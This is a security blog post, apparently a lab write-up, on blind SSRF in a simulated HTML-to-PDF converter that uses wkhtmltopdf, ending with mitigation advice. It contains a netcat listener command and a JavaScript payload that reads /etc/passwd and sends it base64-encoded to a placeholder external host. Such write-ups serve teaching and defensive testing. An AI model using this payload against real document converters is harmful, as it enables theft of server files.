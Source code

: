 ```yaml
---
title: "Exploring Blind SSRF Vulnerabilities in HTML to PDF Conversion Applications"
date: 2023-04-23
author: 0xLuc4s
categories: [ssrf-vulnerabilies]
tags: [ssrf]
---
```


## Overview

This post delves into a case study of a blind Server-Side Request Forgery (SSRF) vulnerability within a fictitious application designed for converting HTML documents to PDFs. The application, which is a simulated target in a controlled environment, highlights the subtlety and potential impact of SSRF vulnerabilities, especially when they do not provide direct feedback or error messages.

## Testing Environment and Setup

The target application listens on port 8080 and accepts HTML files for processing into PDF documents. Initial observations indicated that the server's response was identical regardless of the HTML content provided, suggesting no visible data processing errors or SSRF indications through the front-end.

## Conducting Blind SSRF Tests

To test for blind SSRF, we employed an external server setup to capture any outbound requests from the application. The test involved submitting an HTML file containing a reference to an image hosted on our external server:

```html
<!DOCTYPE html>
<html>
<body>
    <h1>Hello World!</h1>
    <img src="http://<EXTERNAL SERVICE IP>:9090/test-image">
</body>
</html>

## Simplifying SSRF Blind Testing with Netcat

For our testing purposes, we employ a simple Netcat listener running on a virtual machine (VM), set to listen on port 9090. This setup allows us to capture any incoming requests and observe the web application's external interactions, which are pivotal in identifying and exploiting SSRF vulnerabilities.

### Setting Up the Netcat Listener

Here's the command to set up the Netcat listener, crucial for our SSRF testing:

\```bash
sudo nc -nlvp 9090
\```

This command configures Netcat to listen on all interfaces at port 9090, ready to log any incoming requests.

### Observations After Submitting the HTML File

Upon submitting an HTML file containing external resource references, the application attempts to fetch these resources. This behavior confirms the existence of an SSRF vulnerability as it shows the application making unauthorized external network calls based on HTML content.

## JavaScript Exploitation and Data Exfiltration

Further exploration reveals that the application's PDF conversion tool, wkhtmltopdf, supports JavaScript execution within HTML files. We exploit this feature to perform data exfiltration as demonstrated below:

\```html
<html>
<body>
    <script>
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "file:///etc/passwd", true);
    xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
            // Encode the file contents in base64
            var b64content = btoa(xhr.responseText);
            // Send the encoded data to our external server
            var exfil = new XMLHttpRequest();
            exfil.open("GET", "http://<EXTERNAL SERVICE IP>:9090/exfil?data=" + b64content, true);
            exfil.send();
        }
    };
    xhr.send();
    </script>
</body>
</html>
\```

This script reads the local `/etc/passwd` file and sends its Base64-encoded contents to our Netcat listener, showcasing a direct method of exploiting the SSRF vulnerability to extract sensitive information.

## Mitigation Strategies

To mitigate blind SSRF vulnerabilities effectively, it is crucial to:

- **Validate and sanitize all incoming data**, especially URLs and file paths, to prevent external resource references.
- **Implement strict allowlists** for outbound connections and protocols that the server is permitted to access.
- **Use secure programming practices** to disable unnecessary HTTP features that could be exploited via SSRF.
- **Regularly update and patch** third-party libraries and tools used for processing user-supplied content.

## Conclusion

Blind SSRF poses significant security risks, especially in applications that process external inputs to interact with internal or external resources. Understanding and implementing robust mitigation strategies are vital for securing web applications against these potential attacks and data breaches.